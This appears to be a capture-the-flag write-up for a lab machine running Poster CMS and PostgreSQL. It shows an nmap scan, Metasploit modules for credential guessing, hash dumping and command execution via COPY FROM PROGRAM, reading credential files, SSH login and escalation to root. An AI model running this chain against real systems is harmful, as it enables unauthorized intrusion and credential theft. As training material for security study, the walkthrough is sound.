 
# Trivia

Depending on the EF Codd relational model, an RDBMS allows users to build,
update, manage, and interact with a relational database,
which stores data as a table.

Today, several companies use relational databases
instead of flat files or hierarchical databases to store business data.
This is because a relational database can handle a
wide range of data formats and process queries efficiently.
In addition, it organizes data into tables that can be linked internally
based on common data. This allows the user
to easily retrieve one or more tables with a single query.
On the other hand, a flat file stores data in a single table structure,
making it less efficient and consuming more space and memory.  

Most commercially available RDBMSs currently use Structured Query Language (SQL)
to access the database.
RDBMS structures are most commonly used to perform CRUD operations
(create, read, update, and delete),
which are critical to support consistent data management.  

#### Types of databases

- Centralised database.
- Distributed database.
- Personal database.
- End-user database.
- Commercial database.
- NoSQL database.
- Operational database.
- Relational database.
- Cloud database.
- Object-oriented database.
- Graph database.

# Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.127.152
```

Output:  

```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Poster CMS
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
|_ssl-date: TLS randomness does not represent time

Aggressive OS guesses: Linux 3.10 - 3.13 (95%)
```

Searching in msfconsole for postgresql I find an auxiliary module that
lets us enumerate user credential called
**/auxiliary/scanner/postgres/postgres_login**  

```bash
msf5> use auxiliary/scanner/postgres/postgres_login
> set rhosts 10.10.127.152
> run
```

Output:  

```bash
postgres:password@template1
```

Searching again in msfconsole for postgresql I find an auxiliary module that
allows you to execute commands with user creds named
**/auxiliary/scanner/postgres/postgres_sql**  

```bash
msf5> use auxiliary/admin/postgres/postgres_sql
> set password password
> set rhosts 10.10.127.152
> run
```

We get the version: **9.5.21**  

Output:  

```bash
PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
```

Lets know dump user hashes. Again with metasploit
**auxiliary/scanner/postgres/postgres_hashdump**

```bash
msf5> use auxiliary/scanner/postgres/postgres_hashdump
> set password password
> set rhosts 10.10.127.152
> run
```

Output:

```bash
Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc
```

We can read files with **auxiliary/admin/postgres/postgres_readfile**  
And we can get RCE with
**exploit/multi/postgres/postgres_copy_from_program_cmd_exec**  

# Exploitation

```bash
msf5> use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
> set password password
> set rhosts 10.10.127.152
> run
```

We get a shell and then

```bash
cat /home/dark/credentials.txt
dark:qwerty1234#!hackme
```

SSH in the machine

```bash
ssh dark@10.10.127.152
```

After some failed attempts to enumerate I found some interesting stuff

```bash
cat /var/www/html/config.php

$dbhost = "127.0.0.1";
$dbuname = "alison";
$dbpass = "p4ssw0rdS3cur3!#";
$dbname = "mysudopassword";

su alison
cat /home/alison/user.txt
sudo su
cat /root/root.txt
```

